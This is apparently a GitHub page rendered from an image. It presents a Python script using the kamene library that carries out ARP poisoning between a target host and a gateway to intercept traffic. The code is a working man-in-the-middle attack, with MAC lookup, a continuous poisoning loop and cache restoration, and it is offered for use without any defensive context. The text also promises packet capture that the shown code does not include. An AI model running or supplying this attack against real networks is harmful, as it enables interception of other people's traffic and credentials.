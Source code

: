 # **Python ARP Spoofing & Sniffing Script**  

This script **performs ARP poisoning** to intercept network traffic between a target and a gateway while capturing packets for analysis. 🚨 

```python
import kamene.all as kam
import sys
import threading
import time

# get your VM data running from a shell 
# $ipconfig 
# $arp -a 

interface = "en1"
tgt_ip = "172.16.1.255"
tgt_gateway = "172.17.55.245"
packet_count = 500
poisoning = True

def restore_target(gateway_ip, gateway_mac, target_ip, target_mac):
    print("[*] Restoring target...")
    send(kam.ARP(op=2, psrc=gateway_ip, pdst=target_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=gateway_mac),count=5)
    send(kam.ARP(op=2, psrc=target_ip, pdst=gateway_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=target_mac),count=5)
    
def get_mac(ip_address):
    responses, unanswered = kam.srp(kam.Ether(dst="ff:ff:ff:ff:ff:ff") / kam.ARP(pdst=ip_address), timeout=2, retry=10)

    # return mac address from response
    for s,r in responses:
        return r[kam.Ether].src
    return None

def poison_target(gateway_ip, gateway_mac, target_ip, target_mac):
    global poisoning

    poison_tgt = kam.ARP()
    poison_tgt.op = 2
    poison_tgt.psrc = gateway_ip
    poison_tgt.pdst = target_ip
    poison_tgt.hwdst = target_mac

    poison_gateway = kam.ARP()
    poison_gateway.op = 2
    poison_gateway.psrc = target_ip
    poison_gateway.pdst = gateway_ip
    poison_gateway.hwdst = gateway_mac

    print("[*] Beginning the ARP poison. [CTRL-C to stop]")

    while poisoning:
        send(poison_tgt)
        send(poison_gateway)
        time.sleep(2)

    print("[*] ARP poison attack finished")

    return

```